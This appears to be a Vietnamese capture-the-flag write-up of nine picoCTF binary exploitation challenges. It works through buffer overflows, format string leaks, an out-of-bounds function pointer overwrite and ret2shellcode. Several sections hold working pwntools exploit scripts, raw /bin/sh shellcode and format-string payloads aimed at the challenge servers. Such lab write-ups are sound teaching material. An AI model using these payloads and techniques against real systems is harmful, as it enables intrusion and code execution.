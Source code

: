 <details>
<summary>1. Buf0 </summary>
    
- Bài này cho 1 file source và 1 file binary
- Mình đọc file source thì thấy nó sẽ gọi hàm in flag nếu bị overflow. Ngoài ra có hàm `gets` khiến ta nhập tuỳ thích và `strcpy` làm buf2 bị overflow nếu len input > 16

![](https://i.imgur.com/6FYe0IP.png)

- Vậy mình chỉ cần input đủ dài (>16) là được
    
![](https://i.imgur.com/azBQ14m.png)

- Kết nối chạy thử và ta đã lấy được flag
</details>

<details>
<summary>2. Buf1 </summary>
    
- Bài này cho 1 file source và 1 file binary
- Mình đọc file source thì thấy có hàm win để lấy shell. Ngoài ra có lỗi buffer overflow do `gets` ở hàm `vuln`

![](https://i.imgur.com/NzkGj1c.png)

- Checksec thử thì thấy tắt hết nên ta chỉ cần gdb rồi tìm padding oveflow như bình thường là được.

![](https://i.imgur.com/OeG97Qy.png)

- Script:
```python
from pwn import *
exe = ELF("vuln")
p= remote("saturn.picoctf.net",62172)
payload = b"A"*44 + p32(exe.sym['win'])
p.sendlineafter(b'string: \n',payload)
p.interactive()
```

- Chạy script và ta sẽ có được flag.
    
</details>



<details>
<summary>3. Buf2 </summary>
    
- Bài này cho 1 file source và 1 file binary
- Mình đọc file source thì thấy có lỗi overflow khi nhập bằng hàm `gets`.
    
![](https://i.imgur.com/Hz2ObzC.png)

- Tiếp theo có hàm `win` sẽ cho ta flag nếu thoả 2 arguments. Sau đó ta `checksec`
    
![](https://i.imgur.com/Qv2sVET.png)
    
- Đây là file 32 bit và theo calling convention thì argument sẽ được push lên stack theo reverse order.
- Vậy bài này ta sẽ lợi dụng buffer overflow để chuyển return address của hàm `vuln` qua hàm `win`
- Để biết chắc chắn arguments nằm ở đâu mình sẽ gdb, sẵn tìm padding luôn
    
![](https://i.imgur.com/CJgpqkb.png)

![](https://i.imgur.com/SwIHfOY.png)
    
- Stack frame khi chạy qua hàm `win` sẽ có dạng như sau:
    
![](https://i.imgur.com/l8sAJiJ.png)

- Do đó ta cần padding thêm 4 byte trước khi đưa argument. Vậy thứ tự payload sẽ là:  112 byte padding + address của `win` + 4 byte padding + `0xcafef00d` + `0xf00df00d`
- Script:
```python
from pwn import *

exe = ELF("vuln")
p=remote("saturn.picoctf.net",51014)
payload = b'A'*112 +p32(exe.sym['win'])+b'A'*4+p32(0xcafef00d)+p32(0xf00df00d)
p.sendlineafter(b'string: \n',payload)
p.interactive()
```
    
- Chạy script trên ta sẽ có được flag
</details>
  
<details>
<summary>4. x-sixty-what </summary>
    
- Bài này cho 1 file source và 1 file binary
- Mình đọc file source thì thấy bị overflow do hàm `gets`. Ngoài ra cũng có hàm `flag` in ra flag.
    
![](https://i.imgur.com/63lgjEU.png)

![](https://i.imgur.com/dNKRd0d.png)

- Vậy ta sẽ overflow ret address của `vuln` thành hàm `flag`.
- Sau đó ta vào gdb tìm padding

![](https://i.imgur.com/XnLuZBp.png)

- Rồi viết script để chạy:
```python
from pwn import *
exe=ELF("vuln")
p=remote("saturn.picoctf.net",62515)
payload = b'A'*72+p64(exe.sym['flag'])
p.sendlineafter(b'flag: \n',payload)
p.interactive()
```
- Chạy thử thì ta sẽ bị lỗi xmm1 do `win` có push lên stack làm rsp không chia hết cho 16. Vậy ta chỉ ret vào sau hàm push.

- Final script:
```python
from pwn import *
exe=ELF("vuln")
p=remote("saturn.picoctf.net",62515)
payload = b'A'*72+p64(exe.sym['flag']+5)
p.sendlineafter(b'flag: \n',payload)
p.interactive()
```
</details>

<details>
<summary>5. flag leak </summary>
    
- Bài này cho 1 file source và 1 file binary
- Đầu tiên ta mở file source lên đọc. Nhận thấy có lỗi format string ở hàm `vuln`, vậy ta sẽ lợi dụng nó để đọc flag đã được mở trước đó.
    
![](https://i.imgur.com/3dwtEuA.png)

- Tiếp theo ta checksec thì nhận thấy đây là file 32 bit. Theo calling convention thì arguments sẽ được push lên stack. Do đó ta sẽ gdb để xem offset.
    
![](https://i.imgur.com/XCuPhPk.png)

- Ta tính ra được 20. Vậy ta chỉ cần input `%20$s` để leak flag. Mình chạy local trên máy mình thì ra được flag nhưng remote thì lại không được (chắc tại khác môi trường) nên mình thử những giá trị lân cận đó thì được `%24$s` là ra được flag

![](https://i.imgur.com/tTL0YPX.png)

</details>

<details>
<summary>6. ropfu </summary>
    
- Bài này cho 1 file source và 1 file binary
- Đầu tiên ta mở file source lên xem thử
    
![](https://i.imgur.com/PPDimxc.png)

- Vậy là có lỗi buffer overflow, trong source không có chỗ nào để lấy shell nên ta checksec thử.
    
![](https://i.imgur.com/dceyyPo.png)

- NX,PIE disable nên bài này mình làm ret2shell cho dễ
- Vậy ta gdb tìm offset để tính tiếp.
    
![](https://i.imgur.com/xns3FVp.png)

- Ta được offset là 28 và khi đó eax chứa địa chỉ của buffer mình nhập. Vậy thì ta cần kiếm gadget jmp vào eax hoặc call eax. Mình thử thì chạy call eax thì được còn jmp eax thì không.

- Script (shellcode mình chôm trên mạng):
```python
from pwn import *

p = remote("saturn.picoctf.net",53296)
call_eax = 0x0804901d
shell = b'\x83\xec\x50\x31\xd2\x52\x31\xc9\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\xcd\x80'
payload =shell + b'A'*(28-len(shell)) + p32(call_eax)
p.sendlineafter(b'grasshopper!\n',payload)
p.interactive()
```
- Chạy thử và ta có được shell và chỉ cần lấy flag.

</details>

<details>
<summary>7. function overwrite </summary>
    
- Bài này cho 1 file source và 1 file binary
- Đầu tiên mình đọc file source thì thấy ta sẽ lấy được flag nếu kết quả của `calculate_story_score` bằng 13371337. Nhưng điều này là không khả thi vì len của `story` là 128 và chúng ta không thể input được string sau cho ra đúng yêu cầu đề bài.
- Xem kỹ source ta sẽ thấy hàm `check` trỏ về hàm `hard_checker` và có lệnh này ở hàm vuln

![](https://i.imgur.com/PApsYT7.png)

- `If num1 < 10` tức ta có thể input số âm. Ngoài ra ta có `type a[i]` tương đương truy cập với `địa chỉ của a + i*sizeof(type)` do đó ta có thể lợi dụng điều này để khiến hàm fun trở về hàm check sau đó sử dụng giá trị trong đây để nhảy về hàm khác.
                
- Ta đi tìm địa chỉ hàm fun và check
                
![](https://i.imgur.com/NJggbyl.png)

- Ta giải phương tình sau để tìm ra được i: `0x0804c080+4*i=0x0804c040`. Vây ta cần nhập `-16` để hàm fun trỏ về hàm check. Sau đó ta cần tìm offset để điều chỉnh cho hợp lý.
                
![](https://i.imgur.com/VWwT2N9.png)

- Mình sẽ nhảy vào `hardchecker+47` để bypass khúc check bằng 13371337 phí trên. Vậy ta cần nhập số thứ 2 là 47.

- Vậy ta kết nối với server và lấy flag. Lần nhập đầu tiên thì nhập đại cái nào cũng được nhưng lần thứ 2 sẽ là `-16 47`

![](https://i.imgur.com/hkAvnDg.png)

</details>
    
<details>
<summary>8. Stack Cache </summary>
    
- Bài này cho 1 file source và 1 file binary
- Mình đọc file source thì thấy bị overflow do `gets` ở hàm `vuln`, ngoài ra có hàm `win` được gọi tới sẽ load file `flag.txt`. Còn có thêm hàm `underconstruction` in ra `%p %p` nhưng khúc trên không khai báo, vậy đây tương đương lỗi format string
    
![](https://i.imgur.com/8nlBQKD.png)

- Tiếp theo mình `checksec`. Nhận thấy có canary bật và đây là file 32 bit.

![](https://i.imgur.com/khwUh32.png)

- Vậy mình gdb để xem sao thì nhận thấy trước khi ret nó không hề check canary nên ta sẽ thoải mái overflow nhảy qua hàm win sau đó là hàm underconstruction để leak flag.

- Ta sài gdb tìm offset như bình thường sau đó nhảy qua hàm underconstruction xem thử leak gì

![](https://i.imgur.com/WlvNN5X.png)

- Flag lúc này đã được reverse vậy thì khi %p sẽ leak flag từ dưới lên trên.

- Ta viết script kết nối với server thì nhận được dãy hex sau:

![](https://i.imgur.com/dj7DRF4.png)

- Sau đó ta decode dãy trên

![](https://i.imgur.com/MToubYx.png)

- Rồi reverse lại thủ công bằng tay tiếp thì ta được flag `picoCTF{Cle4N_uP_M3m0rY_c7f3d997}` 

- Script : 
```python
from pwn import *
exe = ELF("vuln")
p= remote("saturn.picoctf.net",61570)
payload = b"a"*14 + p32(exe.sym['win'])+p32(exe.sym['UnderConstruction'])

p.sendlineafter(b'flag\n',payload)
p.interactive()
```
</details>
    
<details>
<summary>9. basic file exploit </summary>
    
- Bài này chỉ cho 1 file source
- Đầu tiên ta mở lên coi có gì thì nhận thấy file gần 200 line và đầu file có khai báo flag

![](https://i.imgur.com/sa1zC83.png)

- Vậy mục đích là làm sao để in được file flag này ra. 
- Ta ctrl-f kiếm thử coi flag có được sài ở đâu không thì thấy có ở hàm `data_read()`

![](https://i.imgur.com/M7GNSCR.png)

- Vậy ta cần làm thoả mãn điều kiện sau: `entry_number = strtol(entry, NULL, 10)) == 0`

- Ta phân tích như sau : hàm `strtol` sẽ chuyển `entry` từ string sang int (hệ 10) tức là chuỗi '123' sẽ thành số 123 sau đó gán cho `entry_number` rồi check `entry_number` có bằng 0 hay không. Vậy mục đích của ta là làm cho `strtol` return 0.

![](https://i.imgur.com/GdPTvWJ.png)

- Đọc man page thì ta nhận thấy hàm này chỉ return 0 khi bị lỗi không convert được hoặc số entry number ta nhập là số 0.

![](https://i.imgur.com/Rimb0HK.png)

- Cách nào cũng được vậy thì ta thử cách nhập số 0.
- Control flow của chương trình như sau : Nhập input -> check input là 1,2 hay 3 rồi thực hiện tương ứng. Để nhập được entry number là 0 thì ta trước đó phải chọn số 1 để ghi vào trước (ghi gì cũng được). 

- Ta thực hiện ý tưởng trên và có được flag

![](https://i.imgur.com/HyuRg9T.png)

</details>
